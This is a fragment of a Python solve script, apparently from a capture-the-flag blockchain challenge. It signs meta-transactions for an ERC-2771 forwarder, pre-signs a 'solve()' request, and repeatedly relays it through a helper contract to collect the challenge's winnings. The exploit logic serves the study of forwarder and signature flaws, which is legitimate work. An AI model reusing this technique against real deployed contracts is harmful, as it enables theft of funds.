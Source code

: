     forwarder_abi, _ = load_compiled("ERC2771Forwarder.sol")
    forwarder = conn.contract(account, abi=forwarder_abi, address=forwarder_addr)
    
    nonce = 0
    
    def sign(f, to, deadline, d):
        global nonce
        digest = helper.caller.getHash(
            f,
            to,
            nonce,
            deadline,
            d
        )
        sig = Account._sign_hash(digest, account.private_key).signature
        return sig
    
    def sign_and_execute(f, to, t, d):
        global nonce
        deadline = int(datetime.now(timezone.utc).timestamp()) + t
        sig = sign(f, to, deadline, d)
        forwarder.functions.execute(
            (f, to, 0, 300000, deadline, d, sig)
        ).send_transaction()
        nonce += 1
    
    for i in range(5):
        sign_and_execute(
            account.address,
            challenge,
            60,
            encode_with_signature(
                "start(uint256)",
                3
            )
        )
    
        deadline = int(datetime.now(timezone.utc).timestamp()) + 600
        sig = sign(account.address, challenge, deadline, encode_with_signature("solve()"))
        print(f"deadline: {deadline}")
        print(f"sig: {sig.hex()}")
        nonce += 1
        while True:
            try:
                helper.functions.helpCall(
                    (account.address, challenge, 0, 300000, deadline, encode_with_signature("solve()"), sig), 3
                ).send_transaction()
                break
            except Exception as e:
                print(e)
                pass
        
        print(conn.cast_call(challenge, "winnings(address)(uint256)", account.address))
    ```
    